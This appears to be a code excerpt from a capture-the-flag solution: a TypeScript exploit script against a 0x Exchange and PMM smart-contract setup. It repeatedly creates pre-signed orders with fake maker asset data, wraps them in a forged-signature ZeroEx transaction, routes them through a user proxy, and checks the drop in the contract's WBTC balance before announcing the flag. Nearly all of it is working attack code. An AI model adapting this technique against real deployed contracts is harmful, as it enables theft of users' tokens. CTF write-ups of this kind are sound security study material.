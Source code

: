 ```

    // ERC-20 proxy
    let realMakerAssetData = "0xF47261B00000000000000000000000002260FAC5E5542a773Aa44fBCfeDf7C193bc2C599";

    let ZERO_ADDR = "0x0000000000000000000000000000000000000000";
    let makerAddress = wallet.address;
    let takerAddress = ZERO_ADDR;

    for (var i = 0; i < 200; i++) { // repeat 200 times in case some fail; this is overkill
        const order = {
            makerAddress,
            takerAddress: PMM.address,
            //takerAddress: ZERO_ADDR,
            feeRecipientAddress: ZERO_ADDR,
            senderAddress: ZERO_ADDR,
            makerAssetAmount: 1,
            takerAssetAmount: 1,
            makerFee: 0,
            takerFee: 0,
            expirationTimeSeconds: 1700000000n + BigInt(i), // change the expiration time to get different order hashes
            salt: 0,
            makerAssetData: fakeMakerAssetData,
            takerAssetData: "0xF47261B0000000000000000000000000C02AAA39B223FE8D0A0E5C4F27EAD9083C756CC2",
        };

        let info = await ZeroExchange.getOrderInfo(order);
        await ZeroExchange.preSign(info.orderHash, order.makerAddress, "0x");
        let zxCall = await ZeroExchange.populateTransaction.fillOrKillOrder(order, order.takerAssetAmount, "0x" + "00".repeat(100) + "06");

        let userSalt = 0n;

        let SCHEMA = utils.keccak256(utils.toUtf8Bytes("ZeroExTransaction(uint256 salt,address signerAddress,bytes data)"));
        let dataHash = utils.keccak256(zxCall.data as string);
        let transactionHash = utils.keccak256(
            utils.defaultAbiCoder.encode(
                ["bytes32", "uint256", "address", "bytes32"],
                [SCHEMA, userSalt, PMM.address, dataHash]
            )
        );

        let digest = utils.solidityKeccak256([ "bytes32", "address" ], [ transactionHash, wallet.address ]);
        let userSignature = await  wallet.signMessage(utils.arrayify(digest));
        userSignature += wallet.address.substring(2);

        let pmmCall = await PMM.populateTransaction.fill(userSalt, zxCall.data, userSignature);
        try {
            let res = await UserProxy.toPMM(pmmCall.data, { value: order.takerAssetAmount, gasLimit: 2000000 });
            console.log(i, (await res.wait()).transactionHash);
        } catch(e) {
            console.log(i, e)
        }
    }

    let after = await WBTC.balanceOf(PMM.address);
    console.log(before, after);
    console.log("now go get the flag!")
```